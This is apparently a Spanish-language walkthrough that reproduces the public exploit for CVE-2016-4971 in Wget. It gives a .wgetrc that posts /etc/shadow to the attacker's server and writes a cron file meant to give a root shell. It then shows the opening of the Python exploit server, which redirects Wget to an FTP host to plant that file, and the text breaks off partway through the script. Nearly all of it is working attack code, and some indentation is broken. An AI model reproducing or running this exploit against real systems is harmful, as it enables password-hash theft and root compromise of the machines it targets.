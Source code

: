 1. creamos un fichero .wgetrc y le insertamos

    ```bash
    cat <<_EOF_>.wgetrc
    post_file = /etc/shadow
    output_document = /etc/cron.d/wget-root-shell
    _EOF_
    ```

1. creamos un script en python 

    ```python
    #!/usr/bin/env python

    #
    # Wget 1.18 < Arbitrary File Upload Exploit
    # Dawid Golunski
    # dawid( at )legalhackers.com
    #
    # http://legalhackers.com/advisories/Wget-Arbitrary-File-Upload-Vulnerability-Exploit.txt
    #
    # CVE-2016-4971
    #

    import SimpleHTTPServer
    import SocketServer
    import socket;

    class wgetExploit(SimpleHTTPServer.SimpleHTTPRequestHandler):
    def do_GET(self):
        # This takes care of sending .wgetrc

        print "We have a volunteer requesting " + self.path + " by GET :)\n"
        if "Wget" not in self.headers.getheader('User-Agent'):
        print "But it's not a Wget :( \n"
            self.send_response(200)
            self.end_headers()
            self.wfile.write("Nothing to see here...")
            return

        print "Uploading .wgetrc via ftp redirect vuln. It should land in /root \n"
        self.send_response(301)
        new_path = '%s'%('ftp://anonymous@%s:%s/.wgetrc'%(FTP_HOST, FTP_PORT) )
        print "Sending redirect to %s \n"%(new_path)
        self.send_header('Location', new_path)
        self.end_headers()
